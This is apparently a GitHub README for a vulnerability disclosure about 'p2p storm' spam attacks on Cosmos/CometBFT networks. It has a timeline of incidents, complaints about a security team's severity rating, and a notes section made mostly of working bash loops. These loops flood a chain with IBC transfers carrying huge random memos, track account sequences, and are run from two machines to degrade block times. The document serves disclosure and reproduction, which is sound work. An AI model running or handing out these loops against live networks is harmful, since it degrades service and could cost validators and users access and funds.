 # Spammy

## Timeline

* 2021, Sept 
  * Issue first noticed on sentinel
    * [validator chat logs](./sentinel-evidence/sentinelvalidatortg/) 10/15/2021-12/15/2021
    * first report to icf hackerone
    * https://acrobat.adobe.com/link/review?uri=urn:aaid:scds:US:c14b2605-3497-381a-870e-510b92e33f75
* 2022, May 
  * Issue occurs on Luna Classic, accelerating the loss of billions in user funds
  * Today, notably, Luna2 has a block size of 1MB and Terraform Labs confirmed that it is due to this
* 2023, August 15 
  * Issue occurs on Stride and Notional begins to investigate with suport from a broad group of teams.
* 2023, Sept 21
  * 8:01am - Jacob Gadikian adds Jessy Irwin to "invalid block parts" channel
    * https://notionalgroup.slack.com/archives/C05N6G0CLBB/p1695272490812409
  * 8:54am - Jessy Irwin leaves "invalid block parts" channel without saying a word
    * https://notionalgroup.slack.com/archives/C05N6G0CLBB/p1695275679442249
  * 9:08am - Amulet subtweets this
    * https://x.com/amuletdotdev/status/1704739436335083941?s=20 
* 2023, Sept 25 
  * Notional Labs reproduces the issue on the cosmos hub replicated security testnet with the explicit approval of Hypha
* 2023, Sept 26
  * Notional labs has accelerated the attack with a [bash script](./attack.bash)
  * RS testnet blocks last 38 seconds each
  * Notional labs discontinues the attack on the RS testnet
* 2023, Sept 27
  * The network continues to experience degraded performance
  * Validator mempools remain [full](./mempoolcryptocrew.json) 
  * Block times are stil [7.9 seconds on average](./screenshots/hub-testnet/current-09-27_19-55-05.jpg), representing a service degredation of 33%
  * Full validator mempools could reduce access to the network for users
  * Network hasn't been attacked for over 18 hours
* 2023, Sept 28 7:16PM CET - amulet announces a low severity security issue with comet, likely because they've not got full context on the issue
  * https://x.com/amuletdotdev/status/1707429071213511090
  * https://github.com/cometbft/cometbft/security/advisories/GHSA-hq58-p9mv-338c 
* 2023, Sept 29 2:14PM CET
  * Cosmos hub replicated security testnet continues to have degraded performance due to gossiping of invalid block parts, logs below.
* 2023, Sept 30:
  * Video One: (DM Jacob for access)
  * Video Two: (DM Jacob for access)
 

It is my strong belief that Amulet does not understand the nature of the situation because they've failed to communicate with the numerous teams involved.  If they were to even just sync the cosmos hub replicated security testnet, they would immediately see that it is still suffering from the previous attack. 

Amulet seems to have not understood that there are numerous issues at play, despite being in possession of this report:

https://docs.google.com/document/d/1oCjsVYMaV77etxOEbDxh58vkAQaXf7RAkhXvF_8GYis/edit




## Tooling and documentation for the reproduction of:

* banana king
* client update spam
* banana client

In an effort to reporoduce a p2p storm on the cosmos hub testnet. 


### it has been [reproduced](./REPRODUCITON.md)






## Links to explorer

* **client updates**
 * https://ping.pub/cosmos/tx/2BA652123FFD549CCFA672BDD596801DABAD680029EA817369814DE5750DB4AB

* **testing wallet - mainnet**
  * https://www.mintscan.io/cosmos/address/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq
  * txns were made so that they fail intentionally.

* **testing wallet - testnet**
  * will vary between failed transactions and successes
  * goal is to increase block time on the testnet
  * https://explorer.rs-testnet.polypore.xyz/ 
  


## Target

We're looking to transmit a "banana client".  This transaction will 


## P2P storms have occured on the following networks:

* Sentinel
* Luna Classic
  * Led to economic harm 
* Stride


## Notes

Change the maximum request body size in config.toml

```toml
# Maximum size of request body, in bytes
max_body_bytes = 100000000
```

Generate a random string (hex output)

```bash
openssl rand -hex 10000000
```

Sign a transcation


Broadcast a transaction (oddly cli won't broadcast, we'll need to chain it)
```bash
gaiad tx broadcast bananasigned1.json --home ~/.gaia-rs
```

Abuse the ibc memo field
```bash
gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes
 ```

 Abuse the ibc memo field fast
 ```bash
 for (( ; ; )); do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number
 ```bash
 for i in {2000..3000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number, wait a tenth of a second between runs
 ```bash
for i in {3045..5000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; sleep .1 ; done
```

Abuse ibc memos using the account sequence to start


  Loop the loop script
```bash
while true ; do bash attack2.bash ; done
```

```bash
set -e

SEQUENCE=$(curl http://127.0.0.1:1317/cosmos/auth/v1beta1/accounts/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq | jq --raw-output ' .account.sequence ')

for i in $( eval echo {"$SEQUENCE"..10000000} )
         do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i
         done
```
but do it from two machines

```bash
set -e

SEQUENCE=$(curl http://127.0.0.1:1317/cosmos/auth/v1beta1/accounts/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq | jq --raw-output ' .account.sequence ')

for i in $( eval echo {"$SEQUENCE"..10000000} )
         do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i
         done
```






 Hub testnet blcok range 3881725 to 3881733





